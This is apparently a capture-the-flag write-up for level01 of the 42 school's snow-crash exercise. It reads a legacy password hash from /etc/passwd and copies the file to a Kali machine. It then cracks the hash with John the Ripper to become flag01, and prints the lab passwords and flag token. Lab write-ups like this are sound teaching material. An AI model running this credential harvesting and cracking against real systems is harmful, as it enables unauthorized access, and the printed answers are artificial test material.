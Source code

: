 Login as `level01`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level01
level01@192.168.1.64's password: x24ti5gi3x0ol2eh4esiuxias
```
There is no file or binary to exploit in home directory, nor file owned by `flag01`.
```shell
level01@SnowCrash:~$ ls -l
total 0
```
By looking `/etc/passwd` reveals encrypted password.
```shell
level01@SnowCrash:~$ cat /etc/passwd
[...]
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
[...]
```
As `/etc/passwd` is readable it can be copied.
```shell
level01@SnowCrash:~$ ls -l /etc/passwd
-rw-r--r-- 1 root root 2477 Mar  5  2016 /etc/passwd
```
Copy `/etc/passwd` file from VM on local to further transfer on Kali.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  scp -P 4242 level01@192.168.1.64:/etc/passwd .
level01@192.168.1.64's password: x24ti5gi3x0ol2eh4esiuxias
passwd                       100% 2477     4.9MB/s   00:00
```

Copy `passwd` file into Kali Linux to further processing.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  scp -P 2222 passwd kali@localhost:/tmp
kali@localhost's password: kali
passwd                       100% 2477     2.8MB/s   00:00
```

Use **JTR**[¹](https://en.wikipedia.org/wiki/John_the_Ripper) to crack the `/tmp/passwd` file.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh kali@localhost -p 2222 /usr/sbin/john --show /tmp/passwd
kali@localhost's password:
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash
1 password hash cracked, 0 left
```
Another way to crack the password without copying the file.
```shell
kali@kali:~$ john --show <(echo 42hDRfypTqqnw)
?:abcdefg
```

Login as `flag01` and get the flag.
```shell
level01@SnowCrash:~$ su flag01
Password: abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```

